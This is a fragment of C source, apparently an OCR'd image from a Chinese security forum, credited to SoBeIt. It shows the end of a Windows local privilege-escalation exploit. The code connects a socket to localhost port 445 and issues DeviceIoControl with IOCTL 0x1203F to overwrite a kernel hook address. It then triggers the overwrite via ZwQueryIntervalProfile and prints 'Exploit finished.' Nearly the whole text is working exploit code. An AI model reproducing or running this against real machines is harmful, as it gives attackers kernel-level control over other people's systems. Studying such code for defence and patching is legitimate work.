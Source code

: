 if((sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0)
ErrorQuit("socket failed.
");

saddr.sin_family = AF_INET;
saddr.sin_port = htons(0x1bd);
saddr.sin_addr.s_addr = 0x100007f;

if(connect(sockfd, (struct sockaddr *)&saddr, sizeof(struct sockaddr)))
ErrorQuit("connect failed.
");

DeviceIoControl((HANDLE)sockfd, 0x1203F, NULL, 0, (PVOID)(HookAddress - 3), 0, &Result, NULL);

ProfileSource = ProfileTotalIssues;
ZwQueryIntervalProfile(ProfileSource, &Result);

printf("Exploit finished.
");
return 1;
}

作者：[SoBeIt](http://www.whitecell.org/forums/viewthread.php?tid=796)

